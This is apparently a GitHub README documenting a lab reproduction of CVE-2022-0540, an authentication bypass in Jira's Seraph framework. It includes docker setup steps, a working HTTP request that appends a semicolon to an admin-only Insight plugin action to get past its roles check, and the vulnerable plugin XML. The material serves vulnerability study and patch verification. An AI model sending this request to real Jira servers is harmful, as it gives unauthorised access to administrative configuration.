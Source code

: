 
# Authentication Bypass in Jira Seraph Vulnerability (CVE-2022-0540)

## Introduction

Jira Server and Data Center vulnerable to an authentication bypass in its web authentication framework, Jira Seraph.

Although the vulnerability is in the core of Jira, it affects first and third party apps that specify roles-required at the webwork1 action namespace level and do not specify it at an action level. For a specific action to be affected, the action will also need to not perform any other authentication or authorization checks.

## Setup

Run

```bash
docker-compose up
```

and access to `http://localhost:8080`, setup jira using free trial key.

install[insight-asset-management 8.9.4](https://marketplace.atlassian.com/apps/1212137/insight-asset-management/version-history) in `http://localhost:8080/plugins/servlet/upm/marketplace?source=side_nav_find_new_addons`

## Poc

In this case, I have use a trial key for Jira Software. Send request below to get the configuration of insight plugin.

```http
GET /InsightPluginShowGeneralConfiguration.jspa; HTTP/1.1
Host: 10.128.154.152:8080
Connection: keep-alive
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36 Edg/101.0.1210.39
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
```

![poc](images/screenshot.jpg)

As said by **khoadha**, the affect version of this plugin has below `webwork1 tag`

```xml
<webwork1 key="rlabs_pluginconfig_insight_webactions_config_init" name="Insight Plugin Config Show" class="java.lang.Object" roles-required="admin">
    <actions>
        <action name="com.riadalabs.jira.plugins.insight.channel.web.action.InsightPluginGeneralConfigAction" alias="InsightPluginShowGeneralConfiguration">
            <view name="error">/templates/common/error.vm</view>
            <view name="success">/templates/pluginadmin/general_configure_show.vm</view>
        </action>
    </actions>
</webwork1>
```

but the `roles-required` has been bypass.

## Reference

1. https://jira.atlassian.com/browse/JRASERVER-73650
2. https://blog.viettelcybersecurity.com/cve-2022-0540-authentication-bypass-in-seraph/